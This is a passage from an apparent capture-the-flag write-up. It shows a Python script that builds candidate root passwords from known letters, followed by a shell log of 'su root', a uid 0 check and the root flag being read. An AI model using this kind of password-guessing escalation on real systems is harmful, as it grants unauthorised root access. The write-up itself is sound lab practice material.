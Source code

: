 ```
    return word_list

password_letters = []
_password_letters = 'eginpsxy' # change this

for letter in _password_letters:
    password_letters.append(letter)

# find out all unique combinations of the letters
all_combinations = list(itertools.combinations(password_letters, 4))
unique_letters_combinations = list(set(all_combinations))

# iterate through the combinations to find meaningful passwords
for unique_letters_combination in unique_letters_combinations:

    # find all `word_1` meaningful english words
    word_1_list = find_english_words(unique_letters_combination)

    # find all `word_2` meaningful english words
    word_2_letters = list(set(password_letters) - set(unique_letters_combination))
    word_2_list = find_english_words(word_2_letters)

    # permute between `word_1` and `word_2` lists
    possible_password_list = list(itertools.product(word_1_list, word_2_list))

    for possible_password in possible_password_list:
        print("{}-{}".format(possible_password[0], possible_password[1]))

```

```
$ python3 solution.py
ping-sexy
sexy-ping
```

- become `root` using password `ping-sexy`

```
user@nidavellir:/tmp$ su root
su root
Password: sexy-ping

root@nidavellir:/tmp# id       
idMj
uid=0(root) gid=0(root) groups=0(root)
root@nidavellir:/tmp# #pwned
#pwned
```

- read `root` flag

```
root@nidavellir:/tmp# cat /root/root.txt
cat /root/root.txt
SNAP{aaaaand_heres_your_reality_stone}
```
